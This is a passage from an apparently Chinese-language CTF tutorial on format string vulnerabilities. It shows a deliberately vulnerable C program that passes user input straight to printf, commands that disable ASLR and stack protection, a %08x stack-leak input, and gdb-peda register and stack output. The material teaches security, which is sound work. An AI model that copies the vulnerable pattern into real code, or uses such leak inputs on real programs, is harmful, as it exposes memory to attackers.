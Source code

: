 - 对于每一个 `%s`，`printf()` 都要从栈中获取一个数字，把该数字视为一个地址，然后打印出地址指向的内存内容，直到出现一个 NULL 字符。
- 因为不可能获取的每一个数字都是地址，数字所对应的内存可能并不存在。
- 还有可能获得的数字确实是一个地址，但是该地址是被保护的。

### 查看栈内容

使程序崩溃只是验证漏洞的第一步，攻击者还可以利用格式化输出函数来获得内存的内容，为下一步漏洞利用做准备。我们已经知道了，格式化字符串函数会根据格式字符串从栈上取值。由于在 x86 上栈由高地址向低地址增长，而 `printf()` 函数的参数是以逆序被压入栈的，所以参数在内存中出现的顺序与在 `printf()` 调用时出现的顺序是一致的。

下面的演示我们都使用下面的[源码](https://firmianay.gitbooks.io/ctf-all-in-one/content/src/others/3.1.1_format_string/fmt_2.c)：

```c
#include<stdio.h>
void main() {
    char format[128];
    int arg1 = 1, arg2 = 0x88888888, arg3 = -1;
    char arg4[10] = "ABCD";
    scanf("%s", format);
    printf(format, arg1, arg2, arg3, arg4);
    printf("\n");
}
# echo 0 > /proc/sys/kernel/randomize_va_space
$ gcc -m32 -fno-stack-protector -no-pie fmt.c
```

我们先输入 `b main` 设置断点，使用 `n` 往下执行，在 `call 0x56555460 <__isoc99_scanf@plt>` 处输入 `%08x.%08x.%08x.%08x.%08x`，然后使用 `c` 继续执行，即可输出结果。

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd584 ("%08x.%08x.%08x.%08x.%08x")
EBX: 0x56557000 --> 0x1efc
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd618 --> 0x0
ESP: 0xffffd550 --> 0xffffd584 ("%08x.%08x.%08x.%08x.%08x")
EIP: 0x56555642 (<main+133>:    call   0x56555430 <printf@plt>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555638 <main+123>:       push   DWORD PTR [ebp-0xc]
   0x5655563b <main+126>:       lea    eax,[ebp-0x94]
   0x56555641 <main+132>:       push   eax
=> 0x56555642 <main+133>:       call   0x56555430 <printf@plt>
   0x56555647 <main+138>:       add    esp,0x20
   0x5655564a <main+141>:       sub    esp,0xc
   0x5655564d <main+144>:       push   0xa
   0x5655564f <main+146>:       call   0x56555450 <putchar@plt>
Guessed arguments:
arg[0]: 0xffffd584 ("%08x.%08x.%08x.%08x.%08x")
arg[1]: 0x1
arg[2]: 0x88888888
arg[3]: 0xffffffff
arg[4]: 0xffffd57a ("ABCD")
[------------------------------------stack-------------------------------------]
0000| 0xffffd550 --> 0xffffd584 ("%08x.%08x.%08x.%08x.%08x")
0004| 0xffffd554 --> 0x1
0008| 0xffffd558 --> 0x88888888
0012| 0xffffd55c --> 0xffffffff
0016| 0xffffd560 --> 0xffffd57a ("ABCD")
0020| 0xffffd564 --> 0xffffd584 ("%08x.%08x.%08x.%08x.%08x")
0024| 0xffffd568 (" RUV\327UUVT\332\377\367\001")
0028| 0xffffd56c --> 0x565555d7 (<main+26>:     add    ebx,0x1a29)
```